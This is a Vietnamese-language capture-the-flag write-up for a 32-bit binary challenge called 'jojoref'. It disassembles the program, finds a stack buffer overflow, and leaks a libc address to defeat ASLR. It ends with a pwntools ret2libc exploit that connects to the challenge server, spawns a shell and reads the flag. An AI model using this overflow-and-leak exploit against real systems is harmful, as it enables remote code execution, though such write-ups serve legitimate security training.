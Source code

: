 **PZ**
---
Binary Exploitation

Description:
---
> Just a JoJo reference.

Solution:
---
Bài này thì khó hơn bài trước :joy: Chạy thử tiếp nào :point_down:

```bash
root@kali:~# ./jojoref
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: yes
[You said: yes]
Pwn: Oh ho... then come as close as you want
You: ok girl
root@kali:~#
```

2 chỗ nhập khó nhiều 1 chỗ nhập chứ :cry: Disassembly ra thôi. Con này stripped rồi nên một là dùng `objdump` để xem code, hai là dùng tool ngoài.
> Disassembly bằng Radare2, IDA hay Binary Ninja... nhé. Nhiều tool lắm.
```asm
...

add     esp, 10h
mov     eax, ds:(stdout_ptr - 804A000h)[ebx]
mov     eax, [eax]
sub     esp, 8
push    0               ; buf
push    eax             ; stream
call    _setbuf
add     esp, 10h
call    sub_804872B
call    sub_8048676; <---| Chỗ này nhé, còn lại thì bình thường rồi.
mov     eax, 0
lea     esp, [ebp-8]
pop     ecx
pop     ebx
pop     ebp
lea     esp, [ecx-4]
retn
```

Xem hàm sub_8048676 nào:
```asm
.text:08048676 buf             = byte ptr -1Ch
.text:08048676 var_C           = dword ptr -0Ch
.text:08048676 var_4           = dword ptr -4

...

.text:08048688                 mov     eax, offset unk_804A040; <--- Nhớ địa chỉ này không ??
.text:0804868E                 mov     eax, [eax]
.text:08048690                 mov     [ebp+var_C], eax; <--- Lấy số random lưu vào [ebp+var_C]
.text:08048693                 sub     esp, 0Ch
.text:08048696                 lea     eax, (aPwnOhYouReAppr - 804A000h)[ebx] ; "Pwn: Oh? You're approaching me? Instead"...
.text:0804869C                 push    eax             ; s
.text:0804869D                 call    _puts
.text:080486A2                 add     esp, 10h
.text:080486A5                 sub     esp, 0Ch
.text:080486A8                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:080486AE                 push    eax             ; format
.text:080486AF                 call    _printf
.text:080486B4                 add     esp, 10h
.text:080486B7                 sub     esp, 8
.text:080486BA                 push    30h             ; nbytes <--- Lại cho nhập 0x30 bytes
.text:080486BC                 lea     eax, [ebp+buf]  ;        <--- Trong khi buffer chỉ có 0x1C bytes
.text:080486BF                 push    eax             ; buf
.text:080486C0                 call    sub_8048612     ;  <--- Hàm nhập và thay kí tự '\n' ở cuối chuỗi thành '\0'
.text:080486C5                 add     esp, 10h
.text:080486C8                 mov     eax, offset unk_804A040
.text:080486CE                 mov     eax, [eax]
.text:080486D0                 cmp     [ebp+var_C], eax ; <--- Kiểm tra lại xem số random lưu ở [ebp+var_C] có bị thay đổi không
.text:080486D3                 jz      short loc_80486DA  
.text:080486D5                 call    sub_80485B6  ; <--- Nếu đổi thì gọi hàm này

...
```
Xem nếu số random bị thay đổi thì ra cái gì nhé:
```asm
...
.text:080485C8                 sub     esp, 8
.text:080485CB                 push    0               ; oflag
.text:080485CD                 lea     eax, (aFlag - 804A000h)[ebx] ; "flag"
.text:080485D3                 push    eax             ; file
.text:080485D4                 call    _open  ; <--- Mở ra flag
.text:080485D9                 add     esp, 10h
.text:080485DC                 mov     [ebp+fd], eax
.text:080485DF                 cmp     [ebp+fd], 0
.text:080485E3                 js      short loc_8048608
.text:080485E5                 sub     esp, 4
.text:080485E8                 push    27h             ; nbytes
.text:080485EA                 lea     eax, [ebp+buf]
.text:080485ED                 push    eax             ; buf
.text:080485EE                 push    [ebp+fd]        ; fd
.text:080485F1                 call    _read  ; <--- Đọc ra flag
.text:080485F6                 add     esp, 10h
.text:080485F9                 sub     esp, 0Ch
.text:080485FC                 lea     eax, [ebp+buf]
.text:080485FF                 push    eax             ; s
.text:08048600                 call    _puts  ; <--- In ra flag, ez 15' gg :))
.text:08048605                 add     esp, 10h
...
```
Có vẻ như chỉ cần ghi đè qua [ebp+var_C] là ra flag. Ok đập phát chết luôn:
```bash
root@kali:~# python -c 'print "A"*18' | nc 3.91.78.13 10001
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: PTITCTF{ Well yes , but actually no. }   # <--- Bị lừa rồi ... 

root@kali:~# 
```

Thôi lại xem tiếp nếu không gọi sub_80485B6 thì loc_80486DA có cái gì :sweat_smile: :
```asm
...
.text:080486DA                 sub     esp, 8
.text:080486DD                 lea     eax, [ebp+buf]
.text:080486E0                 push    eax
.text:080486E1                 lea     eax, (aYouSaidS - 804A000h)[ebx] ; "[You said: %s]\n"
.text:080486E7                 push    eax             ; format
.text:080486E8                 call    _printf
.text:080486ED                 add     esp, 10h
.text:080486F0                 sub     esp, 0Ch
.text:080486F3                 lea     eax, (aPwnOhHoThenCom - 804A000h)[ebx] ; "Pwn: Oh ho... then come as close as you"...
.text:080486F9                 push    eax             ; s
.text:080486FA                 call    _puts
.text:080486FF                 add     esp, 10h
.text:08048702                 sub     esp, 0Ch
.text:08048705                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:0804870B                 push    eax             ; format
.text:0804870C                 call    _printf
.text:08048711                 add     esp, 10h
.text:08048714                 sub     esp, 8
.text:08048717                 push    30h             ; nbytes
.text:08048719                 lea     eax, [ebp+buf]
.text:0804871C                 push    eax             ; buf
.text:0804871D                 call    sub_8048612 ; <--- Lại hàm nhập, giống như đoạn code trước khi jmp
.text:08048722                 add     esp, 10h
.text:08048725                 nop
.text:08048726                 mov     ebx, [ebp+var_4]
.text:08048729                 leave
.text:0804872A                 retn
```
Lần thứ 2 nhập thì không check số random, có lẽ nên khai thác vào chỗ này.

Bài này thì người ta cho sẵn chuỗi "/bin/sh" ở 0x8048890 rồi nên 
gợi ý là sẽ return về system("/bin/sh"). Cơ mà lại không cho địa chỉ của sytem(), và server bật ASLR nên cần phải tính thông qua địa chỉ của hàm nào đó đã cho.

Để ý trong suốt quá trình hàm sub_8048676 này làm việc không thấy đả động gì đến vị trí [ebp-0x8], có gì đó mờ ám chăng ?
```asm
Breakpoint 1, 0x0804867a in ?? ()
gdb-peda$ x/x $ebp-8
0xffffd370:	0xf7fadd80
gdb-peda$ info proc map
process 1764
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /root/jojoref
	 0x8049000  0x804a000     0x1000        0x0 /root/jojoref
	 0x804a000  0x804b000     0x1000     0x1000 /root/jojoref
	0xf7dd3000 0xf7dec000    0x19000        0x0 /usr/lib32/libc-2.28.so # <--- địa chỉ cơ sở libc nhé
	0xf7dec000 0xf7f3a000   0x14e000    0x19000 /usr/lib32/libc-2.28.so
	0xf7f3a000 0xf7faa000    0x70000   0x167000 /usr/lib32/libc-2.28.so
	0xf7faa000 0xf7fab000     0x1000   0x1d7000 /usr/lib32/libc-2.28.so
  ...
  
gdb-peda$ p/x 0xf7fadd80-0xf7dd3000
$1 = 0x1dad80
gdb-peda$ quit
root@kali:~# readelf -s /usr/lib32/libc-2.28.so | grep 1dad80
   905: 001dad80   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdout_@@GLIBC_2.1 # <--- :))
root@kali:~#
```
Rồi thế là xong, chạy nhiều lần thì nó vẫn ra hàm đấy thôi. Còn lưu ý nữa là con này biên dịch bằng GCC 7.3.0 cho nên việc tính ra system có thể bị sai,
vì kali của mình đang chạy GCC 8.3.0, chuyển qua ubuntu cho chắc:
```bash
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep stdout
   783: 001d8ea0    80 OBJECT  GLOBAL DEFAULT   34 _IO_stdout_@@GLIBC_2.0
   895: 001d8d80   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.1 # <--- Đây
  1168: 001d8e1c     4 OBJECT  GLOBAL DEFAULT   34 stdout@@GLIBC_2.0
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 # <--- Và đây
zeltrax@z-pc:~$
```
Bài này phải xử lí run-time nên phải code thôi:
```python
from pwn import *

#p = process("./jojoref")
p = remote('3.91.78.13', 10001)
s1 = "A"*16
print p.recvline()
print p.recv(5)

p.send(s1)

print p.recv(11+16)
urandom = p.recv(4)
ebp_8 = p.recv(4)

print "random: %s" % hex(u32(urandom))
print "$ebp-0x8: %s" % hex(u32(ebp_8))
system = u32(ebp_8)-(0x1d8d80-0x3d200)
print "system: %s" % hex(system)

s2 = "A"*32 + p32(system) + "JUNK" + p32(0x08048890)
print p.recvline()
print p.recv(5)

p.sendline(s2)
p.interactive()
```
Nhớ flag fake không? Phải là flag2 cơ :grin:
```bash
[+] Opening connection to 3.91.78.13 on port 10001: Done
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?

You: 
[You said: AAAAAAAAAAAAAAAA
random: 0xc09dc5bd
$ebp-0x8: 0xf7ecdd80
system: 0xf7d32200
]

Pwn: 
[*] Switching to interactive mode
Oh ho... then come as close as you want
You: $ cat flag2
PTITCTF{w3ll_y3s_0utst4nd1ng_m0v3_but_1t's_ill3g4l}
$ 
```
